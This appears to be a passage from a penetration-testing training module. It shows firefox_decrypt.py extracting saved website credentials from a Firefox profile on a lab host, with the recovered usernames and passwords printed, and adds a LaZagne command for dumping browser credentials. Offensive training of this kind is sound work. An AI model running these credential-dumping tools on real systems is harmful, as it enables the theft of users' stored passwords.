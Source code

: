 ```shell
python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

Alternatively, `LaZagne` can also return results if the user has used the supported browser.
```shell
python3 laZagne.py browsers
```


